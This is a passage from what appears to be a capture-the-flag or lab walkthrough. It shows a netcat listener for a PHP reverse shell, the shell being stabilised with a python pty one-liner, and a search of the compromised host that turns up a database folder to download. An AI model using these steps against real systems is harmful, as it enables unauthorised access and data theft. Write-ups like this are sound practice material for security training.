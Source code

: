 ![Pasted image 20250527193737](MediaFiles/Pasted%20image%2020250527193737.png)

then start our listener on the port we specified in our php shell:
```shell
nc -lvnp 9001 
```

next by forwarding the request, we receive our rev shell!
![Pasted image 20250527193809](MediaFiles/Pasted%20image%2020250527193809.png)

stabilize shell:
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

once inside, i searched for valuable files and folders
![Pasted image 20250527193958](MediaFiles/Pasted%20image%2020250527193958.png)
and found a folder that seems to be related to a database
![Pasted image 20250527194105](MediaFiles/Pasted%20image%2020250527194105.png)
but we cant view it here, lets download the file locally:
